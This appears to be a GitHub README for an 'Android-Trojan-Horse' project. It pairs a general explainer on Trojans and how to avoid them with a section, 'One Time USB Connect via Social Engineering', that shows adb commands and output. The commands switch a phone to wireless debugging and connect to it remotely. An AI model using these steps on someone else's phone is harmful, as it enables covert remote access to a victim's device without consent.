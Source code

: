 
> # `SD Card Manipulator` || `scrcpy GUI`
>
> ![images-2 fill size_2000x1334 v1611688517](https://github.com/imvickykumar999/Android-Trojan-Horse/assets/50515418/8806c02a-a7a3-425b-a241-51917965dc75)

    Watch Tutorial on YouTube: https://www.youtube.com/watch?v=HD-c2H3NoW8

<br>

# `What is` [`Trojan`](https://twitter.com/imvickykumar123/status/1727223882665672735)?

    A Trojan is a type of malware. 

Trojans, or Trojan horses, are malware that disguise themselves as legitimate programs or software. 

They use social engineering to trick users into installing them. 

<br>

    Once installed, Trojans can perform actions like: 

- Exporting files
- Modifying data
- Deleting files
- Stealing information
- Sending premium SMS texts.

Trojans can also act as a delivery vehicle for other threats. 

For example, a Trojan can overwrite files on a machine and then send itself to the victim's contact list. 

<br>

    To avoid Trojans, you can: 

- Surf the web carefully
- Avoid opening email attachments without thinking
- Only obtain programs from secure sources
- Keep your operating system up-to-date
- Use an always-on virus scanner
  
Trojans get their name from the hollow wooden horse that the Greeks hid inside of during the Trojan War. 

<br><br>

<table>
<tr>

<td>
keyevent.json absent
</td>

<td>
keyevent.json present
</td>

</tr>

<tr>
<td><img src="https://github.com/imvickykumar999/Android-Trojan-Horse/assets/50515418/3e951fd0-de62-486f-b8c7-9debd0998b78" width="100%" alt="keyevent_absent"></td>
<td><img src="https://github.com/imvickykumar999/Android-Trojan-Horse/assets/50515418/5789b05a-0bf4-4d71-9e6b-fcacf670ea7d" width="100%" alt="keyevent_present"></td>
</tr>

</table>

<br>

## `One Time USB Connect via Social Engineering`

```bash
>>> adb devices
    * daemon not running; starting now at tcp:5037
    * daemon started successfully
    List of devices attached

>>> adb tcpip 5555
    restarting in TCP mode port: 5555

>>> adb devices
    List of devices attached
    RZ8N60JN0EE     device

>>> adb shell "ip addr show wlan0 | grep -e wlan0$ | cut -d\" \" -f 6 | cut -d/ -f 1"
    192.168.0.103

>>> adb connect 192.168.0.103:5555
    connected to 192.168.0.103:5555

>>> adb pair 192.168.0.103:40535
    Enter pairing code: 230630
    Successfully paired to 192.168.0.103:40535 [guid=adb-RZ8N60JN0EE-DzkZ1Q]
```
